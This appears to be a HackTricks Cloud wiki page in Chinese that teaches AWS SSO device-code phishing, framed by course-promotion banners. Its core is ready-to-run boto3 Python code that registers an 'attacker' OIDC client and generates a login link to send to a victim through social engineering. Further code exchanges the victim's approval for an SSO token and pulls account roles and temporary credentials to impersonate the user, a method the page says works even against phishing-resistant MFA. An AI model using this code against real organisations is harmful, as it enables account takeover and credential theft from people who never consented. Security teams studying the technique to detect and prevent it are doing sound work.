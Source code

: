 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## AWS 设备代码钓鱼

最初在 [**这篇博客文章**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) 中提出，可以向使用 AWS SSO 的用户发送一个 **链接**，如果 **用户接受**，攻击者将能够获取一个 **令牌以冒充用户** 并访问用户在 **Identity Center** 中能够访问的所有角色。

为了执行此攻击，前提条件是：

* 受害者需要使用 **Identity Center**
* 攻击者必须知道受害者使用的 **子域名** `<victimsub>.awsapps.com/start`

仅凭上述信息，**攻击者将能够向用户发送一个链接**，如果 **接受**，将授予 **攻击者对 AWS 用户** 账户的访问权限。

### 攻击

1. **查找子域名**

攻击者的第一步是找出受害者公司在其 Identity Center 中使用的子域名。这可以通过 **OSINT** 或 **猜测 + BF** 来完成，因为大多数公司会在这里使用其名称或名称的变体。

有了这些信息，就可以获取配置 Identity Center 的区域：
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **生成受害者的链接并发送**

运行以下代码以生成 AWS SSO 登录链接，以便受害者可以进行身份验证。\
在演示中，在 Python 控制台中运行此代码，并且不要退出，因为稍后您将需要一些对象来获取令牌：
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
发送生成的链接给受害者，利用你出色的社会工程技巧！

3. **等待受害者接受**

如果受害者**已经登录AWS**，他只需接受授予权限；如果没有，他需要**登录然后接受授予权限**。\
这就是现在提示的样子：

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **获取SSO访问令牌**

如果受害者接受了提示，运行此代码以**生成一个冒充用户的SSO令牌**：
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO 访问令牌是 **有效期为 8 小时**。

5. **冒充用户**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### 针对不可钓鱼的 MFA 的钓鱼攻击

有趣的是，之前的攻击**即使在使用“不可钓鱼的 MFA”（webAuth）的情况下也能有效**。这是因为之前的**工作流程从未离开所使用的 OAuth 域**。与其他钓鱼攻击不同，用户需要替代登录域，在设备代码工作流程中，**代码由设备已知**，用户即使在不同的机器上也可以登录。如果接受了提示，设备仅通过**知道初始代码**，就能够**为用户检索凭据**。

有关更多信息，请[**查看此帖子**](https://mjg59.dreamwidth.org/62175.html)。

### 自动化工具

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## 参考文献

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或**在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
